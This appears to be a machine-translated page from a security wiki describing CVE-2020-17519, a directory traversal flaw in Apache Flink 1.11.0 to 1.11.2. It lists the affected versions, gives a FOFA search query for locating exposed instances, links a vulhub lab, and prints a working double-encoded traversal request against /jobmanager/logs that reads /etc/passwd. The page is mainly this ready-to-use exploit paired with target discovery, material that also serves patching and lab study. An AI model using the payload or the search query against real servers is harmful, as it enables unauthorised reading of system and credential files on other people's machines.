 ```yaml
---
title: Apache Flink jobmanager directory traversal vulnerability CVE-2020-17519
---
```


# Apache Flink jobmanager directory traversal vulnerability CVE-2020-17519

## Vulnerability Description
On January 6, 2021, 360CERT monitoring discovered that Apache Flink released a risk notice for Apache Flink directory crossing vulnerabilities and directory crossing vulnerabilities. The vulnerability number is CVE-2020-17518, CVE-2020-17519, vulnerability level: high risk, vulnerability score: 8.5.
Remote attackers traverse through the REST API directory, which can cause the impact of file reading/writing.
## Vulnerability Impact
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Flink 1.11.0</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Flink 1.11.1</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Flink 1.11.2</span>

## Network surveying and mapping
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## Environment construction

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## Vulnerability reappears
Verify POC

```shell
/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/a87cedc1-5a40-42bb-a377-9bdb03fad242.png)
